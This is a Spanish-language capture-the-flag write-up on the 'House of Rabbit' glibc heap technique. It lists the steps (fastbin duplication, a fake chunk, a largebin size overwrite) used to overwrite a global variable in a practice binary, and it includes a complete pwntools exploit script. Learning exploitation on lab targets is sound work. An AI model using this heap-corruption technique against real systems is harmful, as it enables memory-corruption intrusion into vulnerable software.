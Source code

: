 # House Of Rabbit

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'../.glibc/glibc_2.25'
    Stripped:   No
    Debuginfo:  Yes
```

Si existe la posibilidad de obtener una shell en este reto la desconozco. El objetivo de este reto fue sobreescribir la variable global `target`.

Podemos reservar hasta 9 chunks de tamaño arbitrario (4 de ellos fastchunks). Podemos usar un fastbin duplication y luego con la tecnica homonima conseguir nuestro objetivo.

Pasos:
1. `user` sera nuestro fake_chunk, asi que `user.age` sera fake_chunk->size, podemos hacer `user.age=3`.
2. Hacemos `av->system_mem` (la memoria disponible en el heap) lo suficientemente grande, haciendo malloc->free, malloc->free a un chunk con size=0xa00000 por ejemplo.
3. Implementamos una duplicacion en la fastbin con `malloc(n<=0x80)` -> `malloc(n<=0x80)` -> `free(fast1)` -> `free(fast2)` -> `free(fast1)`.
4. Reservamos otro chunk con `malloc(n)` (apunta al chunk fast1) y editamos su campo fd para introducir la direccion de nuestro fake_chunk. Ahora nuestro fake_chunk esta en la fastbin.
5. Reservamos un chunk "small" con `malloc(m > 0x80)` y lo liberamos.
```
 Al liberar este chunk adyacente al top chunk se llama a free(sizeof(chunk) + sizeof(top_chunk)),
 un tamaño mayor a  FASTBIN_CONSOLIDATION_THRESHOLD (0x10000 por defecto), por lo que se llama a
 malloc_consolidate que almacena nuestro fake_chunk en unsortedbin porque este no es adyacente al
 top chunk. El resto de chunks de la fastbin son desechados.
```
6. Cambiamos fake_chunk->size a un valor mayor o igual que 0x80000.
7. Hacemos una peticion grande, por ejemplo: `malloc(0xa00000)`.
```
 Esta peticion que excede el tamaño de lo que hay en unsortedbin y el esperado por las smallbins
 mueve el chunk de unsortedbin a la largebin del tamaño correspondiente. En este caso es bin[126],
 la mayor de las largebins, que almacena chunks de tamaño ilimitado.
```
8. Cambiamos fake_chunk->size a un valor grande como `0xfffffffffffffff1` (prev_inuse activo).
9. Hacemos un `malloc(&target - &fake_chunk - 0x20)`.
```
 Esto nos da un chunk enorme y luego el chunk con el tamaño restante se mueve a la unsortedbin.
 Este chunk en la unsorted bin se encuentra en nuestra direccion objetivo asi que el proximo
 malloc de tamaño similar al restante devolvera un chunk en esta direccion.
```
10. Reservamos un chunk con `malloc(n)` tal que n <= remainder_size - 0x10.

```py
#!/usr/bin/python3
from pwn import *

io = process("./house_of_rabbit")
libc = ELF("../.glibc/glibc_2.25/libc.so.6",checksec=False)

index = 0

def malloc(size, data):
    global index
    io.sendline(b"1")
    io.sendlineafter(b"size: ", str(size).encode())
    io.sendlineafter(b"data: ", data)
    index += 1
    return index - 1

def free(index):
    io.sendline(b"2")
    io.sendlineafter(b"index: ", str(index).encode())

def amend_age(age):
    io.sendline(b"3")
    io.sendlineafter(b"age: ", str(age).encode())

io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.symbols['puts']

# "age" is going to be fake_chunk->size
io.sendafter(b"age: ",str(3).encode())


# Make av->system_mem value = 0xa21000
small = malloc(0xa00000,b"")
free(small)
small = malloc(0xa00000,b"")
free(small)

# Fastbin duplication
fast1 = malloc(0x40,b"")
fast2 = malloc(0x40,b"")

free(fast1)
free(fast2)
free(fast1)

# Put fake_chunk in the fastbin
fast1 = malloc(0x40,p64(0x602040))

small = malloc(0x100,b"")

# free(small) triggers malloc_consolidate when merging with top chunk
free(small)

# for the fake chunk is it true that nextchunk != av->top, then is added to the unsortedbin in the last free

# Change fake_chunk->size to fit in the largest largebin (bin[126])
amend_age(0x80001)

# Another big request moves the fake chunk to the largest largebin
small = malloc(0xa00000,b"")

# Change fake_chunk->size to a big one
amend_age(0xfffffffffffffff1)

# Move target to the the unsortedbin
# remainder chunk size is 0xfffffffffffffff0 - 0x10 - 0xffffffffffffffb0 = 0x30
malloc(0x602010 - 0x602040 - 0x20, b"")

# Alloc target
hook = malloc(0x20,b"_s1s1fo_\00")

io.recv(1024)
io.sendline(b"4")

io.interactive()
```


